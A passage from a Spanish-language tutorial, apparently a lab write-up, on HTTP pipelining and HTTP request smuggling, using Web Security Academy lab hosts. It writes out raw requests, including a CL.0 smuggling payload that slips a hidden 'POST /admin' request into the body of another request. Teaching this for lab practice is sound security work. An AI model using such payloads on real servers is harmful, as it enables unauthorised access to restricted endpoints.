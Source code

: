 Lo que el servidor realmente ve es esto:

Request 1:
```http
POST /resources/images/avatarDefault.svg HTTP/1.1\r\n
Host: 0a4600d204a0636b805603eb009a00a8.web-security-academy.net\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Connection: Keep-alive\r\n
Content-Length: 0\r\n
\r\n
```

Request 2 (lo que queda en el buffer junto con la siguiente petición):

```http
POST /X HTTP/1.1\r\n
X-Ignore: XXGET / HTTP/1.1\r\n
Host: 0a4600d204a0636b805603eb009a00a8.web-security-academy.net\r\n
\r\n
```

O sea, la parte que quedó en el buffer (de la petición 1) se une a la segunda, creando una petición compuesta que apunta a `/X` con una cabecera extraña `X-Ignore: XXGET / HTTP/1.1`.

¿Confuso? Sí, pero es normal.

Aunque suene raro, esto sigue siendo un comportamiento esperado del pipelining.
El servidor simplemente procesa lo que recibe según el `Content-Length`, y lo que sobra pasa a la siguiente petición, a veces mezclándose de formas que parecen locas.



## HTTP Request Smuggling: cuando el servidor se confunde (y tú ganas)

Hasta ahora hemos visto ejemplos de pipelining que, aunque curiosos, son comportamientos normales dentro del protocolo.
Pero aquí ya entramos en otro terreno: HTTP Request Smuggling.

Esto no es algo que el servidor “espere” que pase. Aquí jugamos con las discrepancias entre el frontend y el backend para colar peticiones que no deberían estar ahí.

Este ataque lo popularizó **[James Kettle](https://www.linkedin.com/in/james-kettle-albinowax/)**
 con un estudio brutal que mostró cómo, con un poco de creatividad, podías engañar a dos servidores que hablan entre sí para que uno procese algo distinto de lo que el otro cree que enviaste.

En este caso vamos a ver un ejemplo de tipo CL.0.

Request 1:
```http
POST /resources/images/avatarDefault.svg HTTP/1.1\r\n
Host: 0aaf00fc04369b408159178a00b00064.web-security-academy.net\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Connection: Keep-alive\r\n
Content-Length: 33\r\n
\r\n
POST /admin HTTP/1.1\r\n
X-Ignore: X\
```
Request 2:
```http
GET / HTTP/1.1\r\n
Host: 0aaf00fc04369b408159178a00b00064.web-security-academy.net\r\n
\r\n
```
